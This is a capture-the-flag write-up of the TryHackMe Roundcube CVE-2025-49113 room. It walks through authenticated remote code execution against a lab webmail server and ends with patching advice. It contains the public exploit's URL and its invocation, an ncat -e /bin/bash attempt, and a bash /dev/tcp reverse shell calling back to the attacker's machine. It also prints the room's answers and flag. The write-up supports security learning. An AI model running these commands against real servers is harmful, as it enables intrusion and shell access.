

## Introduction

This post covers the TryHackMe room "Roundcube: CVE-2025-49113," which explores what makes this vulnerability possible and demonstrates exploitation in a controlled lab environment.

**Roundcube**is a free and open-source webmail project that has gained widespread adoption due to its feature-rich interface and multilingual support, available in over eighty languages. Its functionality can be further extended through third-party plugins, making it a versatile solution for organizations worldwide.

The platform requires a web server with PHP support and an SQL database to operate. It's compatible with various web servers including Apache, Nginx, and Lighttpd, while supporting multiple database systems such as MySQL, MariaDB, PostgreSQL, and SQLite. This flexibility has made Roundcube particularly popular among hosting providers.

Recently, a critical vulnerability was discovered in Roundcube Webmail affecting all versions 1.5.x and 1.6.x prior to 1.5.10 and 1.6.11. This vulnerability enables remote code execution (RCE) by authenticated users, meaning that valid webmail credentials are sufficient for an attacker to execute arbitrary commands on the host system. With a CVSS 3.x severity score of 9.9, this vulnerability is classified as critical. Roundcube has released patched versions 1.5.10 and 1.6.11 and strongly recommends immediate updates.

## Task 2: Technical Background

Take a couple of minutes to go through the commits for versions 1.5.10 and 1.6.11.
> **Answer:** `No answer needed`

## Task 3: Exploitation

I began by accessing the Roundcube webmail interface:

<figure class="text-center">
  
  <figcaption><em></em>Roudcube login page</figcaption>
</figure>

Next, I obtained the exploit code from the public repository at `https://github.com/fearsoff-org/CVE-2025-49113/blob/main/CVE-2025-49113.php` and saved it locally as `file.php`:

<figure class="text-center">
  
  <figcaption><em></em>Roudcube CVE-2025-49113 php file</figcaption>
</figure>

Then, I initially attempted to establish a reverse shell using the following command:
```bash
php file.php http://10.10.63.105/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
```
{: file="php command"}

When this approach encountered issues, I tried connecting directly to the target:
```bash
 nc 10.10.63.105 4444
```
{: file="nc command on target"}

After this failed, I set up a listener on my attack machine:
```bash
nc -lvnp 4444 
```
{: file="nc command with lvnp on target"}

Then executed a modified payload using a bash reverse shell:
```bash
php file.php http://10.10.63.105/roundcube ellieptic ChangeMe123 "bash -c 'bash -i >& /dev/tcp/10.10.75.191/4444 0>&1'"
```
{: file="new php command"}

The exploit was successful, and I gained shell access to the target system:
<figure class="text-center">
  
  <figcaption><em></em>Roudcube nc command</figcaption>
</figure>

Once inside the system, I examined the `/etc/passwd` file to identify system users:
<figure class="text-center">
  
  <figcaption><em></em>Roudcube users</figcaption>
</figure>

One of the users has the first name of Maggie; what is her last name?
> **Answer:** `Byte`

Fot the flag in `/etc` I enter the directory and search for the txt file:


<figure class="text-center">
  
  <figcaption><em></em>Roudcube flag in flag.txt</figcaption>
</figure>

> **Answer:** `THM{ICE_CUBE_DESERIALISATION}`


## Task 4: Conclusion and Mitigation

This vulnerability demonstrates the severe risks posed by deserialization flaws in web applications. The exploit requires only valid webmail credentials and works against default Roundcube installations, making it particularly dangerous in real-world scenarios.

The attack can be challenging to detect as the malicious traffic may appear similar to legitimate webmail activity.

**Key Takeaways**

- Immediate Action Required: Update to patched versions immediately.
- Authentication Still Required: While this is an RCE vulnerability, it requires valid credentials.
- Default Installations Affected: No special configuration needed for exploitation.
- Detection Challenges: Malicious activity may blend with normal webmail traffic.

This exercise highlights the importance of maintaining up-to-date software and the potential impact of deserialization vulnerabilities in widely-used applications.
> **Answer:** `No answer needed`
